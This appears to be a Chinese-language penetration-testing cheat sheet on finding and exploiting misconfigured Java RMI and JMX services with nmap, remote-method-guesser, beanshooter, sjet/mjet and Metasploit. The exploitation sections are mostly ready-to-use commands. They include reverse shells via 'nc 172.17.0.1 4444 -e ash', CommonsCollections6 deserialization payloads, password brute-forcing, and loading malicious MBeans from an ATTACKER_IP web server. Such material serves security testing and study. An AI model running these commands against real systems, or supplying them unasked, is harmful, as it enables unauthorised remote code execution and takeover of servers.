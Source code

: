 # Java RMI

> Java RMI（远程方法调用）是一个Java API，允许运行在一个JVM（Java虚拟机）中的对象调用运行在另一个JVM中的对象的方法，即使它们位于不同的物理机器上。RMI为基于Java的分布式计算提供了一种机制。

## 概述

* [工具](#工具)
* [检测](#检测)
* [利用](#利用)
  * [使用beanshooter进行RCE](#使用beanshooter进行RCE)
  * [使用sjet/mjet进行RCE](#使用sjet或mjet进行RCE)
  * [使用Metasploit进行RCE](#使用Metasploit进行RCE)
* [参考资料](#参考资料)

## 工具

- [siberas/sjet](https://github.com/siberas/sjet)
- [mogwailabs/mjet](https://github.com/mogwailabs/mjet)
- [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
- [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX枚举和攻击工具。

## 检测

* 使用[nmap](https://nmap.org/)：

  ```powershell
  $ nmap -sV --script "rmi-dumpregistry 或 rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   脆弱：
  |   RMI注册表默认配置远程代码执行漏洞
  |     状态：脆弱
  |       RMI注册表的默认配置允许从远程URL加载类，这可能导致远程代码执行。
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* 使用[remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)：

  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] 扫描172.17.0.2上的6225个端口以寻找RMI服务。
  [+] 	[命中] 在172.17.0.2:40393上发现RMI服务(s) (DGC)
  [+] 	[命中] 在172.17.0.2:1090上发现RMI服务(s) (注册表, DGC)
  [+] 	[命中] 在172.17.0.2:9010上发现RMI服务(s) (注册表, 激活器, DGC)
  [+] 	[6234 / 6234] [#############################] 100%
  [+] 端口扫描完成。
  
  $ rmg enum 172.17.0.2 9010
  [+] RMI注册表绑定的名称：
  [+]
  [+] 	- plain-server2
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (未知类)
  [+] 		    端点：iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+] 	- legacy-service
  [+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (未知类)
  [+] 		    端点：iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+] 	- plain-server
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (未知类)
  [+] 		    端点：iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* 使用Metasploit

  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## 利用

如果Java远程方法调用（RMI）服务配置不当，就会对各种远程代码执行（RCE）方法变得脆弱。一种方法涉及托管一个MLet文件和引导JMX服务从远程服务器加载MBeans，可以使用mjet或sjet等工具实现。remote-method-guesser工具较新，它将RMI服务枚举与公认攻击策略的概览结合在一起。

### 使用beanshooter进行RCE

* 列出可用属性：`beanshooter info 172.17.0.2 9010`

* 显示属性值：`beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`

* 设置属性值：`beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`

* 暴力破解受密码保护的JMX服务：`beanshooter brute 172.17.0.2 1090`

* 列出已注册的MBeans：`beanshooter list 172.17.0.2 9010`

* 部署MBean：`beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`

* 枚举JMX端点：`beanshooter enum 172.17.0.2 1090`

* 在JMX端点上调用方法：`beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`

* 调用任意公共静态Java方法：

  ```ps1
  beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
  beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
  ```

* 标准MBean执行：`beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`

* 对JMX端点进行反序列化攻击：`beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`

### 使用sjet或mjet进行RCE

#### 要求

- Jython
- JMX服务器可以连接到攻击者控制的http服务
- 未启用JMX认证

#### 远程命令执行

攻击包括以下步骤：

* 启动托管MLet和带有恶意MBeans的JAR文件的Web服务器
* 在目标服务器上使用JMX创建MBean `javax.management.loading.MLet` 的实例
* 调用MBean实例的 `getMBeansFromURL` 方法，将Web服务器URL作为参数传递。JMX服务将连接到http服务器并解析MLet文件。
* JMX服务下载并在MLet文件中引用的JAR文件，使恶意MBean通过JMX可用。
* 攻击者最终从恶意MBean调用方法。

使用[siberas/sjet](https://github.com/siberas/sjet)或[mogwailabs/mjet](https://github.com/mogwailabs/mjet)利用JMX

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### 使用Metasploit进行RCE

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# 如有需要，也配置有效载荷
run
```

## 参考资料

* [攻击基于RMI的JMX服务 - 汉斯-马丁·明奇，2019年4月28日](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI - 多应用程序RCE - 红色Timmy安全，2019年3月26日](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
* [remote-method-guesser - BHUSA 2021 Arsenal - 托比亚斯·奈策尔，2021年8月15日](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)
